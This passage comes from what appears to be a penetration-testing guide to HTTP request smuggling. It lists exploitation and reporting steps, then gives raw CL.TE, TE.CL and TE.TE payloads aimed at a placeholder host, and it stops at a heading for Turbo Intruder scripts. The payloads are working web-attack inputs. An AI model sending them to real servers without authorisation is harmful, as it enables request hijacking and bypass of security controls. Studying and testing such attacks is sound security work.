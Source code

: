 ### Phase 3: Exploitation
1. Attempt request smuggling
2. Document findings
3. Test impact and scope
4. Report vulnerabilities

---

## Common Payloads

### CL.TE Payloads
```http
POST / HTTP/1.1
Host: target.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

### TE.CL Payloads
```http
POST / HTTP/1.1
Host: target.com
Content-Length: 3
Transfer-Encoding: chunked

3
abc
0

SMUGGLED
```

### TE.TE Payloads
```http
POST / HTTP/1.1
Host: target.com
Transfer-Encoding: chunked
Transfer-Encoding: identity

0

SMUGGLED
```

---

## Turbo Intruder Scripts
